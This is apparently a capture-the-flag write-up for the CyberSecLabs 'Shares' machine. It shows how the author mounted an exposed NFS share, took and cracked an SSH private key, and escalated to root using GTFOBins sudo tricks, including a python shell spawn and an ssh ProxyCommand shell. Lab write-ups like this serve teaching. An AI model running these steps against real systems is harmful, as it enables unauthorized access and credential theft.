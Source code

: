 ```yaml
---
title: "CyberSecLabs - Shares"
author: Nasrallah
description: ""
date: 2022-03-19 00:00:00 +0000
categories : [CyberSecLabs]
tags: [cyberselabs, linux, nfs, john, crack]
---
```


---

# **Description**

Hello l33ts, I hope you are doing well. Today we are going to look at **Shares** from [Shares](https://www.cyberseclabs.co.uk/labs/info/Shares/) from [CyberSecLabs](https://www.cyberseclabs.co.uk).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -SSST4: Aggressice scan to provide faster results.

![](/assets/img/cyberseclabs/shares/Untitled.png)

There are 4 open port.

- 21/tcp     ftp     vsftpd 3.0.3
- 80/tcp     http    Apache httpd 2.4.29
- 111/tcp    rpcbind 2-4
- 2049/tcp   nfs_acl 3

Since the machine is called shares, i decided to look for any nfs shares.

## NFS

We can list nfs shares using the following command: `showmount -e {target_IP}`

![](/assets/img/cyberseclabs/shares/Untitled1.png)

We found a share, let's mount it on our attacking machine.

First, use `mkdir /tmp/share` to create a directory on your machine to mount the share to. Now let's use the following command to mount the nfs share to our machine. `sudo mount -t nfs IP:/home/amir /tmp/share -nolock`

- sudo:Run as root
- mount:Execute the mount command
- -t nfs:Type of device to mount, then specifying that it's NFS
- IP:share:The IP Address of the NFS server, and the name of the share we wish to mount
- -nolock:Specifies not to use NLM locking

![](/assets/img/cyberseclabs/shares/Untitled2.png)

Great! We have successfully mounted the share.
It appears to be the home directory of **amir**, and it a **.ssh** directory that contains a private key, but when we run a port scan, there was no ssh service listening on the machine, let's run another scan for all ports. `sudo nmap -p- {target_IP}`

![](/assets/img/cyberseclabs/shares/Untitled3.png)

Great! We found the port of ssh.

## **Foothold**

Let's now use the private key we got from the nfs share so connect to the machine.

![](/assets/img/cyberseclabs/shares/Untitled4.png)

the private key has a password protecting it, using `ssh2john` we were able to extract a hash that we managed to crack using `john`. Let's try connecting again.

![](/assets/img/cyberseclabs/shares/Untitled5.png)

## **Privilege Escalation**

We now have access to the machine as **amir**, let's do some basic enumeration.

```terminal
amir@shares:~$ sudo -l
Matching Defaults entries for amir on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amir may run the following commands on shares:
    (ALL : ALL) ALL
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: /usr/bin/python3
```

We see that as amir, we can execute any command as root but we need a password for that, on the other hand, we can execute `/usr/bin/pkexec` and `/usr/bin/python3` as **amy**. We go to [GTFOBins](https://gtfobins.github.io/) and get a pkexec/python3 command that would give us a shell as amy.

- python3 : `sudo -u amy python -c 'import os; os.system("/bin/bash")'`
- pkexec : `sudo -u amy pkexec /bin/sh`

We can't escalate to amy with `pkexec` so let's use `python3`

![](/assets/img/cyberseclabs/shares/Untitled6.png)

We have amy's shell now, let's run another `sudo -l` to see what we can run.

```terminal
amy@shares:~$ sudo -l
Matching Defaults entries for amy on shares:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amy may run the following commands on shares:
    (ALL) NOPASSWD: /usr/bin/ssh
```

We can run `ssh` as root.
Going back to [GTFOBins](https://gtfobins.github.io/) and searching for ssh, we find that we can run the following command to get root `sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x`

![](/assets/img/cyberseclabs/shares/Untitled7.png)

---

Thank you for taking the time to read my writeup, I hope you have learned something with this, if you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
